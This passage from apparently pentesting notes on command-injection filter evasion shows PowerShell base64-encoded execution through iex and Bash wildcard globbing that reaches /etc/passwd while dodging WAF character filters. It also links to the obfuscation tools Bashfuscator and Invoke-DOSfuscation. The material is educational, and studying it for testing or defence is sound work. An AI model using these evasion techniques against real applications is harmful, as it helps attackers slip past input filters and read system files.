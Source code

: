 Windows.

{% code overflow="wrap" %}
```powershell
# encode the command
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
# execute the command
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
x7331
```
{% endcode %}

### Globbing

Using wildcards (`?`, `*`, `[`, `]`, `!`) to partially or fully match file names or other file content. Globbing can be hepful in the case where applications/WAFs restrict the use of certain characters.

```bash
ls -l /etc/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /???/passwd
-rwsr-xr-x 1 root root 72344 Feb  4 20:28 /bin/passwd
-rw-r--r-- 1 root root  2225 Apr  5 15:01 /etc/passwd

ls -l /e??/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /e??/????wd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /e??/{p????d,g???p}
-rw-r--r-- 1 root root  955 Apr  5 15:35 /etc/group
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd
```

### Automated Tools

There are also automated tools for enumerating CI attacks (both deprecated).

{% tabs %}
{% tab title="Bashfuscator" %}
{% embed url="https://github.com/Bashfuscator/Bashfuscator" %}
{% endtab %}

{% tab title="DOSfuscation" %}
{% embed url="https://github.com/danielbohannon/Invoke-DOSfuscation" %}
{% endtab %}
{% endtabs %}
